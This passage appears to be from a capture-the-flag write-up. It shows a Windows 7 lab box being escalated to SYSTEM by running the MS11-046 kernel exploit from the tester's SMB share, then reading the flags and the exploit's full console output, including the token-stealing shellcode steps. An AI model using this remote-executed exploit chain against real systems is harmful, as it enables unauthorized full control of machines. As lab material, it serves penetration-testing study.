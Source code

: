     
    
    c:\Windows\Microsoft.NET\Framework>\\10.10.14.14\share\MS11-046.exe
    
    c:\Windows\System32>whoami
    whoami
    nt authority\system
    

From there, I can grab both flags (which for some reason each have an extra
`.txt`):

    
    
    c:\Users\babis\Desktop>type user.txt.txt
    9ecdd6a3...
    
    c:\Users\Administrator\Desktop>type root.txt.txt
    e621a0b5...
    

Interestingly, when I exit the system shell, all of the things the exploit
tried to print come out to the screen:

    
    
    c:\Users\Administrator\Desktop>exit
    [*] MS11-046 (CVE-2011-1249) x86 exploit
       [*] by Tomislav Paskalev
    [*] Identifying OS
       [+] 32-bit
       [+] Windows 7
    [*] Locating required OS components
       [+] ntkrnlpa.exe
          [*] Address:      0x82805000
          [*] Offset:       0x007c0000
          [+] HalDispatchTable
             [*] Offset:    0x008e93b8
       [+] NtQueryIntervalProfile
          [*] Address:      0x77225510
       [+] ZwDeviceIoControlFile
          [*] Address:      0x77224ca0
    [*] Setting up exploitation prerequisite
       [*] Initialising Winsock DLL
          [+] Done
          [*] Creating socket
             [+] Done
             [*] Connecting to closed port
                [+] Done
    [*] Creating token stealing shellcode
       [*] Shellcode assembled
       [*] Allocating memory
          [+] Address:      0x02070000
          [*] Shellcode copied
    [*] Exploiting vulnerability
       [*] Sending AFD socket connect request
          [+] Done
          [*] Elevating privileges to SYSTEM
             [+] Done
             [*] Spawning shell
    